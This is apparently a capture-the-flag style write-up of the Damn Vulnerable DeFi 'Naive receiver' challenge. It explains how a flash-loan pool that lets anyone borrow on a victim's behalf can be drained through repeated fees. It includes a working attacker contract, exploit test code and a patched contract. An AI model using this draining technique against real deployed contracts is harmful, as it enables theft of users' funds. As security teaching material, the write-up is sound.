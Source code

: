 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Naive receiver
---
```


## Description
There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

## Solution
The problem with _NaiveReceiverLenderPool_ is it doesn't check
that the caller and borrower are the same address. This means anyone can call `flashLoan` for the borrower and force them to pay the fixed fee!

The borrower has 10 ETH and the fee is 1 ETH. We can loop 10 times to perform 10 flash loans and drain the borrower's funds

```
contract NaiveReceiverAttacker {
    function attack(NaiveReceiverLenderPool naiveReceiverLenderPool, address borrower) external {
        for (uint256 i = 0; i < 10; ++i) {
            // A flashLoan for 0 ETH still forces the borrower to pay the fixed fee!
            naiveReceiverLenderPool.flashLoan(borrower, 0);
        }
    }
}
```

And the Javascript code
```
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */   
    const naiveReceiverAttacker = await (await ethers.getContractFactory('NaiveReceiverAttacker', deployer)).deploy()
    await naiveReceiverAttacker.attack(this.pool.address, this.receiver.address)
});
```

## Patched Contract
This one's an easy fix. Just check that the borrower address matches `msg.sender`. An even better solution would
be to remove the `borrower` parameter and always use `msg.sender` for the borrower, but we'll go with the first option
to preserve the interface.

```
contract NaiveReceiverLenderPoolV2 is ReentrancyGuard {

    using Address for address;

    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan

    function fixedFee() external pure returns (uint256) {
        return FIXED_FEE;
    }

    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {
        require(borrower == msg.sender, "Borrower not sender");
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }

    // Allow deposits of ETH
    receive () external payable {}
}
```

You can verify yourself that the exploit no longer works with `NaiveReceiverLenderPoolV2`!